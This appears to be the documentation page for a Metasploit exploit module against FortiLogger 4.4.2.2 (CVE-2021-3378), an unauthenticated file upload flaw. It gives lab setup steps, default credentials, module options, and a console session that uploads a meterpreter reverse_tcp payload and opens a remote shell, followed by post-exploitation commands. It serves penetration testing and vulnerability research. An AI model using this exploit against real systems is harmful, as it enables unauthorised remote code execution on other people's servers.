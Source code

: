## Vulnerable Application

FortiLogger is a web-based logging and reporting software designed specifically for FortiGate firewalls,
running on Windows operating systems. It contains features such as instant status tracking, logging, search / filtering,
reporting and hotspot.

This module exploits an unauthenticated arbitrary file upload via insecure `POST` request on company logo upload
for hotspot settings of FortiLogger 4.4.2.2.

You can download installation file from following url:
https://github.com/erberkan/erberkan.github.io/raw/master/2021/cve-2021-3378/Fortilogger-4.4.2.zip

*(Vendor has removed vulnerable version from web page of vendor for download.)*

### Prerequisites

1. Start a Windows VM *(Tested on Windows 10 Enterprise)*
2. Install a vulnerable version which is 4.4.2.2 of FortiLogger via above url. *(Vendor has removed this version on
   their web page)*
3. After installation, verify that the server is working by visiting it with a browser.
    - Default port: 5000
    - Default username:password - admin:admin


## Verification Steps

1. Install the application
1. Start msfconsole
2. Do: `use exploit/windows/http/fortilogger_arbitrary_fileupload`
3. Set `RHOSTS`
4. Do: `run` or `exploit`
5. **Verify** that `The target is vulnerable.` message appeared
6. **Verify** that payload uploaded to target system successfully: `Payload has been uploaded !`
7. **Verify** that you getting a meterpreter session.

## Options

1.  `RHOSTS`. IP address or FQDN of target system that is FortiLogger 4.4.2.2 is running on it.
2.  `RPORT`. Default port number is `5000`.


## Scenarios

```
msf6 > use exploit/windows/http/fortilogger_arbitrary_fileupload 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > show options 

Module options (exploit/windows/http/fortilogger_arbitrary_fileupload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the FortiLogger
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.46     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   FortiLogger - 4.4.2.2


msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > set rhosts 192.168.16.128
rhosts => 192.168.16.128
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[+] Generate Payload !
[+] Payload has been uploaded !
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.46
[*] Meterpreter session 1 opened (192.168.1.46:4444 -> 192.168.1.46:59563) at 2021-03-01 00:40:26 +0300

meterpreter > getuid
Server username: DESKTOP-QFNKFIO\brkn
meterpreter > sysinfo 
Computer        : DESKTOP-QFNKFIO
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 


```

## Reference
1. https://erberkan.github.io/2021/cve-2021-3378/
